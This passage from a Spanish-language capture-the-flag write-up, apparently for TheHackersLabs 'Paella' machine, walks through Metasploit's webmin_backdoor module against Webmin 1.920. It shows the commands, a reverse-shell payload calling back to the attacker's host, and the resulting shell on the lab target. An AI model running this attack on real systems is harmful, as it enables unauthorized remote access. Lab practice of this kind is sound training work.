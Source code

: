 
<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Explotacion" style="text-align:center;">Explotación de Vulnerabilidades</h1>
</div>
<br>


<h2 id="Metasploit">Probando Módulo: exploit/linux/http/webmin_backdoor de Metasploit Framework para Webmin 1.920</h2>

Parece que este Exploit, está explotando una Backdoor que se dejó de la **versión 1.890 a 1.920** de **Webmin**.

Vamos a buscarlo y a usarlo:
```bash
msf6 > search webmin 1.920
.
Matching Modules
================
.
   #  Name                                     Disclosure Date  Rank       Check  Description
   -  ----                                     ---------------  ----       -----  -----------
   0  exploit/linux/http/webmin_backdoor       2019-08-10       excellent  Yes    Webmin password_change.cgi Backdoor
   1    \_ target: Automatic (Unix In-Memory)  .                .          .      .
   2    \_ target: Automatic (Linux Dropper)   .                .          .      .
.
msf6 > use exploit/linux/http/webmin_backdoor
[*] Using configured payload cmd/unix/reverse_perl
msf6 exploit(linux/http/webmin_backdoor) >
```

Ya solo falta configurarlo:
```bash
msf6 exploit(linux/http/webmin_backdoor) > set RHOSTS 192.168.10.50
RHOSTS => 192.168.10.50
msf6 exploit(linux/http/webmin_backdoor) > set LHOST Tu_IP
LHOST => Tu_IP
```

Y lo ejecutamos:
```bash
msf6 exploit(linux/http/webmin_backdoor) > exploit
[*] Started reverse TCP handler on Tu_IP:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Configuring Automatic (Unix In-Memory) target
[*] Sending cmd/unix/reverse_perl command payload
[*] Command shell session 1 opened (Tu_IP:4444 -> 192.168.10.50:47850) at 2025-05-21 13:51:07 -0600
.
whoami
paella
/bin/bash -i
bash: cannot set terminal process group (516): Inappropriate ioctl for device
bash: no job control in this shell
paella@TheHackersLabs-Paella:/usr/share/webmin/acl$
```
Listo, estamos dentro.
